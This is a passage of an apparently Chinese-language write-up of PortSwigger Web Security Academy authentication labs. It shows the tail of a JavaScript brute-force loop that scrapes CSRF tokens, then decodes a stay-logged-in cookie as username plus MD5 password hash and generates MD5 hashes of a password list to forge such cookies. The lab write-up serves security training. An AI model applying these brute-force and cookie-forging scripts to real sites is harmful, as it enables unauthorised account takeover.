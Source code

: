 ```js
      if (response2.redirected) return;
      const html2 = await response2.text();
      csrf = html2
        .split(`<input required type="hidden" name="csrf" value="`)[1]
        .split(`">`)[0];
    }
    console.log({ round });
  }
}
```

算起來每一輪的成功率只有 2 / 10000 = 0.02%，期望值是 5000 輪會猜到，最後我成功在 1273 輪猜到答案

## Lab: Brute-forcing a stay-logged-in cookie

| Dimension | Description                                                                                                    |
| --------- | -------------------------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/authentication/other-mechanisms#keeping-users-logged-in                   |
| Lab       | https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie |

登入後，可以看到 `Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC`

```js
atob(`d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw`); // wiener:51dc30ddc473d43a6011e9ebba6ca770
// 51dc30ddc473d43a6011e9ebba6ca770 剛好就是 peter 的 MD5 Hash Result
```

由於瀏覽器的 JS 沒有原生的 MD5 Hash Function 可以用，所以我們用 NodeJS 來生成

```js
const crypto = require("crypto");
const hashedPasswords = passwords.map((password) =>
  crypto.createHash("md5").update(password).digest("hex"),
);
console.log(hashedPasswords);
```

結果

```js
[
  "e10adc3949ba59abbe56e057f20f883e",
  "5f4dcc3b5aa765d61d8327deb882cf99",
  "25d55ad283aa400af464c76d713c07ad",
  "d8578edf8458ce06fbc5bb76a58c5ca4",
  "25f9e794323b453885f5181f1b624d0b",
  "827ccb0eea8a706c4c34a16891f84e7b",
  "81dc9bdb52d04dc20036dbd8313ed055",
  "96e79218965eb72c92a549dd5a330112",
  "fcea920f7412b5da7be0cf42b8c93759",
  "8621ffdbc5698829397d97767ac13db3",
  "4297f44b13955235245b2497399d7a93",
  "276f8db0b86edaa7fc805516c852c889",
  "e99a18c428cb38d5f260853678922e03",
  "37b4e2d82900d5e94b8da524fbeb33c0",
  "d0763edaa9d9bd2a9516280e9044d885",
  "0d107d09f5bbe40cade3de5c71e9e9b7",
  "3bf1114a986ba87ed28fc1b5884fc2f8",
  "eb0a191797624dd3a48fa681d3061212",
  "f379eaf3c831b04de153469d1bec345e",
  "6eea9b7ef19179a06954edd0f6c05ceb",
  "c8837b23ff8aaa8a2dde915473ce0991",
  "bee783ee2974595487357e195ef38ca2",
  "e807f1fcf82d132f9bb018ca6738a19f",
```